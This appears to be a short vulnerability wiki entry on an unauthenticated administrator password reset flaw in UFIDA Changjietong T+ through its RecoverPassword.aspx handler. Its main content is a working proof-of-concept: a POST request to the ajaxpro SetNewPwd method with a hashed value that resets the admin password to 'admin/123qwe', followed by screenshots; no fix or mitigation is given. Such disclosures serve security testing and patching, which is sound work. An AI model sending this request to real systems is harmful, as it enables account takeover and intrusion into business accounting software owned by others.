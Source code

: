 # UFIDA Changjietong T+ RecoverPassword.aspx Administrator password modification vulnerability

## Vulnerability Description

UFIDA Changjietong T+ RecoverPassword.aspx has an unauthorized administrator password modification vulnerability. Attackers can log in to the background through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UFIDA Changjietong T+</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662017510454-8bb328d0-35ee-42f9-a36a-625e95a5cfc2.png)

Verify POC, reset the account password to `admin/123qwe`

```php
POST /tplus/ajaxpro/RecoverPassword,App_Web_recoverpassword.aspx.cdcab7d2.ashx?method=SetNewPwd

{"pwdNew":"46f94c8de14fb36680850768ff1b7f2a"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662032164696-3998d8bc-1adb-4ebe-bf03-caff84a33a26.png)
